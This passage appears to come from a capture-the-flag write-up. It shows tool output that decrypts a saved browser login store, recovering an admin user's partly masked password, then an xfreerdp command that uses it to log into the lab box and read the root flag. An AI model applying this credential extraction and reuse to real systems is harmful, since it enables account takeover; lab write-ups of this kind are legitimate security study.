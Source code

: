 ```bash
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256                                                     
           }                                                                                                        
         }                                                                                                          
       }                
       SEQUENCE {    
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC   
         OCTETSTRING b'b0da1db2992a21a74e7946f23021'
       }  
     }  
   }             
   OCTETSTRING b'a713739460522b20433f7d0b49bfabdb'                                                                  
 }                                                        
clearText b'70617373776f72642d636865636b0202'
password check? True
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.5.13 pkcs5 pbes2
     SEQUENCE {
       SEQUENCE {
         OBJECTIDENTIFIER 1.2.840.113549.1.5.12 pkcs5 PBKDF2
         SEQUENCE {
           OCTETSTRING b'f1f75a319f519506d39986e15fe90ade00280879f00ae1e036422f001afc6267'
           INTEGER b'01'
           INTEGER b'20'
           SEQUENCE {
             OBJECTIDENTIFIER 1.2.840.113549.2.9 hmacWithSHA256
           }
         }
       }
       SEQUENCE {
         OBJECTIDENTIFIER 2.16.840.1.101.3.4.1.42 aes256-CBC
         OCTETSTRING b'dbd2424eabcf4be30180860055c8'
       }
     }
   }
   OCTETSTRING b'22daf82df08cfd8aa7692b00721f870688749d57b09cb1965dde5c353589dd5d'
 }
clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
decrypting login/password pairs
   https://creds.com:b'mayor',b'8CL7O********IsV'
```

So you can see a `login/password` combo of `mayor/8CL7O********IsV`.

I use this with xfreerdp to RDP into the box as a user who has Admin permissions i.e. `mayor`:

`xfreerdp /u:mayor /p:8CL7O********IsV /v:$TARGET_IP`

login as mayor, who is in the admin group, and on their desktop is the `root.txt` flag:

### Flag: root.txt

`{Th3_M4*******************}`

